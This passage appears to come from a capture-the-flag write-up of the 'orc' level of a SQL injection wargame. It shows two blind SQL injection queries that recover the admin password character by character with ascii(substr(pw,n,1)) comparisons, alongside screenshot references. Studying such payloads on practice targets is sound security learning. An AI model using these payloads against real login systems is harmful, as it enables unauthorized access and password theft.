 * 5

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,3,1))=53#'`

<img src="./img/orc7.png" width="700">

* d

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,4,1))=100#'`

<img src="./img/orc8.png" width="700">
